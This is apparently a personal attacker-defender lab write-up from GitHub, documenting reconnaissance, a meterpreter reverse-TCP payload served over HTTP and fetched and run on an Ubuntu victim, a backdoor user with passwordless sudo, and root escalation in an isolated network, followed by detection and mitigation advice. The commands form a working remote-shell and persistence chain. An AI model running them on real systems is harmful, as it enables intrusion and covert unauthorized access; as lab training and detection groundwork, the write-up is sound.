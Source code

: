# ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


### Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

### Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ## ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20

 ![Enumeration](Projects/attack-defend-lab/Evidence
/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png)


---


  ## INITIAL ACCESS AND EXECUTION

 ### Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 ### Artifacts / screenshots
Payload creation: 

 ![Payload creation](Projects/attack-defend-lab/Evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png)

Serving payload:

 ![Serving payload](Projects/attack-defend-lab/Evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png)

Payload downloaded on victim: 

 ![Payload on victim](Projects/attack-defend-lab/Evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png)

Exploit/run and handler: 

 ![Exploit run & handler](Projects/attack-defend-lab/Evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png)

 ![Victim ran payload](Projects/attack-defend-lab/Evidence/2025-10-27_15-55-57_Victim-Ran-Payload_Initial-Access-Execution.png)

Successful execution(meterpreter/shell proof):

 ![Success / meterpreter proof](Projects/attack-defend-lab/Evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png)

 ### What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

 ### Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

 ### On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

 ### Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   ## PERSISTANCE
   
 ### Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

 ### Artifacts / Screenshots
-Persistance (new user created): 

 ![Persistence - new user](Projects/attack-defend-lab/Evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png)

 ### Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   ## PRIVILEGE ESCALATION
   
 ### Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

 ### Artifact / Screenshot
-Privilege escalation(root obtained): 

 ![Privilege escalation (root)](Projects/attack-defend-lab/Evidence/2025-10-27_18-49-33_Privilege-Escalation.png)

 ### Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   ## CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   ## LESSION'S LEARNED AND MITIGATION

  ### Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

 ### Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  ### Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  ## Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



